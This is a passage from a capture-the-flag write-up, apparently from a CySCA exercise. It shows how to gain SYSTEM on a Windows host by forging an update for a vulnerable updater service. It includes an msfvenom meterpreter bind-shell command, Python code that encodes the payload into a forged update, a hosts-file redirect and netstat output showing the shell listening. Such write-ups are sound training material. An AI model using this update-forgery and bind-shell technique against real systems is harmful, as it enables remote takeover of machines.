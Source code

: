 ### Getting SYSTEM

Now that we know the data format of the updates we need to create a false update to serve to the updater service. We generate a bind_tcp meterpreter with the command `msfvenom -p windows/meterpreter_bind_tcp --format exe -o payload.exe LPORT=4445`.

To create a forged update, we now need to take our metasploit payload exe, prepend the MAGIC signature `SUus`. Then we use `SHA1` to hash the MAGIC signature+payload bytes and then prepend it to the rest of the data. After all of this, we xor all the bytes in file with 147. Python code to perform these operations is below.

```python
import hashlib
filedata = "SUus"+open("payload.exe","rb").read()
data = hashlib.sha1(filedata).digest() + filedata
encodeddata = ""
for b in data:
	encodeddata += chr(ord(b) ^ 147)
open("universal_updater_update","wb").write(encodeddata)
```

We now start a python SimpleHTTPServer to serve the false update from our Kali machine. `python -m SimpleHTTPServer 80`

We modify the hosts file on the `proxy.ecwi.cysca` to redirect traffic destined for `serioussecurityinc.cysca` to our Kali system. This is the same method as used in `Flash Flood` so we won't cover it again here.

With the service update host redirected and the valid false update in place we now need to trigger the service event on the workstation to have it check for updates and download our false update.

A quick look at `SUUSCLI.exe` shows that all it really does is triggers this update event, so we will save ourselves some work and just use that.

```
C:\Program Files\SUUService>SUUSCLI
SUUSCLI
==== Software Update Service Command Line Management Tool ====
       ==== by Serious Information Security Inc. ====
Attempting to trigger a check for software updates by the service
Opening global update trigger
Triggering an update check
Update Triggered.

C:\Program Files\SUUService>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1096
  TCP    0.0.0.0:4445           0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       348
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       780
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       892
  TCP    0.0.0.0:49166          0.0.0.0:0              LISTENING       444
  TCP    0.0.0.0:49180          0.0.0.0:0
```
We can now see that port 4445 has been opened by our meterpreter payload is listening for connections.
